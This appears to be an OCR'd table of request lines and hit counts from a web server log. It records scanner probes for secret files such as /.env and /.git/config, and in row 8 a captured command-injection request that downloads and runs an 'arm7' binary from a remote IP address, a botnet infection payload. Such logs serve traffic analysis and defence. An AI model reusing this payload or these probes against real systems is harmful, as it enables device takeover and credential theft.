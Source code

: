 |   0 |                   320 | GET / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                               |
|   1 |                    60 | GET /.env HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                           |
|   2 |                    36 | GET / HTTP/1.0                                                                                                                                                                                                                                                                                                                                                                                                               |
|   3 |                    24 | POST / HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                              |
|   4 |                    17 | GET /favicon.ico HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|   5 |                    10 | \xFF\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xF1\x03%\x00\x00\x00{ \x22Ret\x22 : 100, \x22SessionID\x22 : \x220x0\x22 }                                                                                                                                                                                                                                                                                          |
|   6 |                    10 | GET /.git/config HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                    |
|   7 |                    10 | \x16\x03\x02\x01o\x01\x00\x01k\x03\x02RH\xC5\x1A#\xF7:N\xDF\xE2\xB4\x82/\xFF\x09T\x9F\xA7\xC4y\xB0h\xC6\x13\x8C\xA4\x1C=\x22\xE1\x1A\x98 \x84\xB4,\x85\xAFn\xE3Y\xBBbhl\xFF(=':\xA9\x82\xD9o\xC8\xA2\xD7\x93\x98\xB4\xEF\x80\xE5\xB9\x90\x00(\xC0                                                                                                                                                                            |
|   8 |                     8 | POST /device.rsp?opt=sys&cmd=___S_O_S_T_R_E_A_MAX___&mdb=sos&mdc=cd%20%2Ftmp%3Brm%20arm7%3B%20wget%20http%3A%2F%2F178.162.172.219%2Farm7%3B%20chmod%20777%20%2A%3B%20.%2Farm7%20tbk HTTP/1.1                                                                                                                                                                                                                                 |
|   9 |                     7 | GET /password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                   |
|  10 |                     7 | GET /systembc/password.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                          |
|  11 |                     7 | GET /1.php HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                          |
|  12 |                     7 | GET /geoip/ HTTP/1.1                                                                                                                                                                                                                                                                                                                                                                                                         |